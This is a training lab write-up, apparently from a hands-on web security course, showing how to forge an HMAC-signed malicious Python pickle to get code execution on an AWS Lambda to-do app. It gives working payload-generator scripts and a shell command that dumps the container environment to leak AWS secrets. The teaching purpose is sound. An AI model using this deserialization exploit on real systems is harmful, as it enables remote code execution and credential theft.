


# Lab 3

## Introduction

In the previous lab, we found and exploited an XXE bug in the application. Using that bug, we were able to disclose source code of the application, which had an HMAC key hard-coded.

In this lab, we will use that HMAC key to generate a signed, malicious pickle blob to gain code execution in the Lambda container.

## Methodology

We discovered early on (and confirmed via our source code l00t) that the application parses XML import files, extracts `data` and `hmac` elements, validates the data using the HMAC, and then unpickles the data. If the data doesn't pass the HMAC check, it is rejected - that's a perfectly valid way to mitigate deserialization issues. Unfortunately we were able to steal the HMAC key via another vulnerability, and we can now leverage a "feature" of Python's pickle deserialization to gain code execution. In this lab, we'll:

1. Craft a pickle deserialization exploit that steals environment variables
2. Generate an HMAC digest of that exploit that will pass the check
3. Automate payload generation with a Python script
4. Upload our exploit payload and observe the results

## Crafting a pickle deserialization exploit

The primary goal of our exploit will be to read the environment; because sensitive and dynamic data is often passed into the container via the environment, we are likely to find something useful there.

The Python `pickle` library is a serialization library that allows you to serialize Python objects; that is, flatten the object to a byte string, for transport to a remote Python interpreter. Once it reaches the destination, it can be deserialized and used as an object again.

To see how this works in practice, let's deserialize our payload from before. Grab the body of the `data` element from your exported to-do list, open a Python interpreter, and deserialize it as follows:

```
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode('KGxwMAooZHAxClZsaXN0TmFtZQpwMgpWTTBycmlzCnAzCnNWdGFza0Rlc2NyaXB0aW9uCnA0ClZGb28gdGhlIGJhcgpwNQpzVnRhc2tJZApwNgpWNzlMclhrTjBtNEdYS2kzawpwNwpzYShkcDgKVmxpc3ROYW1lCnA5ClZNMHJyaXMKcDEwCnNWdGFza0Rlc2NyaXB0aW9uCnAxMQpWRnJvYiB0aGUgYml6CnAxMgpzVnRhc2tJZApwMTMKVkNWbDNrSWVHYVc0cVFIZjcKcDE0CnNhKGRwMTUKVmxpc3ROYW1lCnAxNgpWTTBycmlzCnAxNwpzVnRhc2tEZXNjcmlwdGlvbgpwMTgKVkJhciB0aGUgZnJvYgpwMTkKc1Z0YXNrSWQKcDIwClZZTHZvSlU3N2xYZTMwaHoxCnAyMQpzYS4='))

# Output: [{u'listName': u'M0rris', u'taskDescription': u'Foo the bar', u'taskId': u'79LrXkN0m4GXKi3k'}, ...
```

The `data` element contains a list of all the tasks we exported, in a pickle-serialized format. Easy enough!

Before we craft our payload, let's revisit how the pickle-deserialization vulnerability works. When an object is being pickled, the pickling routine calls a class method `__reduce__` that returns a function (and its arguments) to be used as an entrypoint when the object is being unpickled (or, "deserialized").

With this background, we can craft a Python class that implements `__reduce__` such that the interpreter executes arbitrary code when it deserializes our Pickle object. Let's try a simple payload:

```
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())
    print('<data>' + base64.b64encode(data) + '</data>')

main()
```

Let's break that down...

The `__reduce__` method in this example returns a 2-tuple containing:

1. A function that the pickle library calls when deserializing the object on target
2. Arguments to that function

In this case, we will use  `subprocess.check_output` to invoke a shell and print the string "Hello World".

Run this Python script to see what it prints.

## Generating an HMAC to make it legit

Since we were able to capture the HMAC key in the previous lab, let's generate an HMAC digest of this pickle payload. Together with a valid HMAC, our malicious payload will pass the check and be considered valid by the Import function.

Remember, if the XML doesn't contain all valid fields or contains any invalid fields (including invalid Pickle data), we'll never reach the deserialization code.

Update your Python payload generator to calculate the HMAC, using our captured key:

```
import cPickle
import subprocess
import base64
import hmac
import hashlib

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.check_output, (('/bin/sh', '-c', 'echo "Hello World"'),))

def main():
    data = cPickle.dumps(RunBinSh())

    h = hmac.new('\x16q\x1c\x10\xfa\xa1\xf1\xf0}%\x95\xce\xa2\xf7\xd1\x8c-\rr\xe5\x91\x9eLS\x15\xbf\xe4\xc4\xd6F\x96\xbe', data, hashlib.sha256)
    digest = h.hexdigest()

    print('<?xml version="1.0"?>')
    print('<backup>')
    print('  <data>' + base64.b64encode(data) + '</data>')
    print('  <hmac>' + digest + '</hmac>')
    print('</backup>')

main()
```

Running that script should provide a valid document that we can import to our todo list.

## Uploading the payload

Run the Python script to generate your pickle exploit, saving the payload to disk:

```
python make_pickle.py >Desktop/pickle_exploit.xml
cat Desktop/pickle_exploit.xml
```

Now upload it using the Import functionality:



It worked!

Let's use this code execution to read the environment. Change your pickle exploit payload to run the command `/bin/sh -c declare`; this will dump the environment back to us!

Upload your payload to see the result:



See anything interesting?

## Extra credit

Can you learn the names of all the lists people have created today?

## Recap

We were able to leverage pickle deserialization to gain code execution on the Lambda container, leaking AWS secrets from the environment. In order to get the backend code to deserialize our pickle exploit, we needed to generate a valid HMAC digest using the key leaked in Lab 2.

## Vulnerabilities covered

| Designation | Description | Comment |
| :---: | --- | --- |
| A2:2017 | Broken Authentication | Pickle data validation is bypassed with leaked HMAC key |
| A5:2017 | Broken Access Control | (extra credit) |
| A8:2017 | Insecure Deserialization | Pickle deserialization is vulnerable to exploitation via `__reduce__` |
